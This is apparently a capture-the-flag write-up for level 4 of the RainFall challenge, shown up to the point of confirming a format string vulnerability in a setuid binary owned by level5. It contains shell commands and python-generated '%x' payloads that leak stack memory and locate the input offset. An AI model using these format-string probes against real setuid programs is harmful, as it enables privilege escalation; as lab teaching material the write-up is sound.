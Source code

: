 # Level 4

## Initial Analysis

### 1. Examine the Binary
```bash
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile

level4@RainFall:~$ file level4
level4: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8cb2bdaa7daab1347b36aaf1c98d49529c605db, not stripped
```

**Key observations:**
- **setuid and setgid binary** (s flags in permissions)
- Owned by **level5** user
- When executed, runs with **level5 privileges**

### 2. Test Basic Execution
```bash
level4@RainFall:~$ ./level4
hello
hello

level4@RainFall:~$ echo "test input" | ./level4
test input

level4@RainFall:~$ ltrace ./level4
__libc_start_main(0x80484a7, 1, 0xbffff7f4, 0x80484b4, 0x8048520 <unfinished ...>
fgets("\n", 512, 0xb7fd1ac0) = 0xbffff550
printf("\n") = 1
+++ exited (status 0) +++
```

**Findings:**
- Program reads input with `fgets()` in function `n()`
- Calls function `p()` which uses `printf()` with user input - **FORMAT STRING VULNERABILITY!**
- Normal execution just echoes input and exits

### 3. Test Format String Vulnerability
```bash
level4@RainFall:~$ python -c 'print "%x %x %x %x"' | ./level4
b7ff26b0 bffff794 b7fd0ff4 0

level4@RainFall:~$ python -c 'print "AAAA" + "%x " * 15' | ./level4
AAAA b7ff26b0 bffff7f4 b7fd0ff4 0 0 bffff7b8 804848d bffff5b0 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520
```
